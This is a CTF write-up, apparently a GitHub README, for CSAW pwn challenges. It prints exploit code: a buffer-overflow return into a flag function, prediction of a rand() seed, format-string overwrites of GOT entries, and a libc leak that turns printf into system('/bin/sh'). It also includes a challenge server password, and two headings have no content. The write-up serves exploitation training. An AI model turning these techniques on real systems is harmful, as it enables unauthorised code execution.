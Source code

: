 Table of Contents
=================

   * [Alien math](#alien-math)
   * [haySTACK](#haystack)
   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
   * [Cold](#cold)
   * [word_games](#word_games)

Sorry for my bad english !!
## Alien math
```
Alien Math
60
Brush off your Flirbgarple textbooks!

nc pwn.chal.csaw.io 5004
```
![image](https://user-images.githubusercontent.com/87422359/133059630-36a26841-4747-4ec2-8b66-33a8b6ca0365.png)
![image](https://user-images.githubusercontent.com/87422359/133059840-163d6577-05db-47ce-af83-eb8601f5fc55.png)
![image](https://user-images.githubusercontent.com/87422359/133060090-14b3f5c4-76ad-46f0-9c3c-9235d4531789.png)
there are a BoF bug and a function give us the flag, just return to it.
<br />
payload:
<br />
```python
print_flag = 0x4014FB
r.sendlineafter("salwzoblrs", 'a'*0x18 + p64(print_flag))
```
## haySTACK
![image](https://user-images.githubusercontent.com/87422359/133061463-df45127b-c6df-4a61-9bc8-19277783455a.png)
```c
unsigned __int64 __fastcall sub_1273(__int64 a1)
{
  int i; // [rsp+14h] [rbp-3Ch]
  int v3; // [rsp+18h] [rbp-38h]
  int v4; // [rsp+1Ch] [rbp-34h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+30h] [rbp-20h]
  __int64 v8; // [rsp+38h] [rbp-18h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = random();
  *(4LL * v3 + a1) = 4919;
  *s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  for ( i = 0; i <= 2; ++i )
  {
    fwrite("Which haystack do you want to check?\n", 1uLL, 0x25uLL, stdout);
    fgets(s, 32, stdin);
    v4 = atoi(s);
    if ( v4 <= 0x100000 )
    {
      if ( v4 == v3 )
      {
        printf("Hey you found a needle! And its number is 0x%08x! That's it!\n", *(4LL * v4 + a1));
        win();
      }
      else
      {
        printf("Hey, you found a needle, but it's number is 0x%08x. I don't like that one\n", *(4LL * v4 + a1));
        if ( i )
        {
          if ( i == 1 )
            puts("Did I mention I'm in a hurry? I need you to find it on your next guess");
        }
        else
        {
          puts("Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle");
        }
      }
    }
    else
    {
      fwrite("I don't have that many haystacks!\n", 1uLL, 0x22uLL, stdout);
    }
    if ( i == 2 )
    {
      puts("I'm out of time. Thanks for trying...");
      return v9 - __readfsqword(0x28u);
    }
    puts("Let's try again!");
  }
  return v9 - __readfsqword(0x28u);
}
```
we will got flag if out input equal to the random number `v3`
<br />
payload:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc,char** argv) {
	int result;
	srand(time(NULL) + 2);
	result = rand() % 0x100000;
	printf("%d\n", result);
}
```
```python
seed = int(time())
process = subprocess.Popen('./a.out', stdout=subprocess.PIPE)
rd = process.stdout.readline().rstrip()
r.sendline(rd)
```
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password and there is another binary on that server. <br />
there are 3 levels, we need a different payload when we up to next level, we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dig into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
## Cold
## word_games
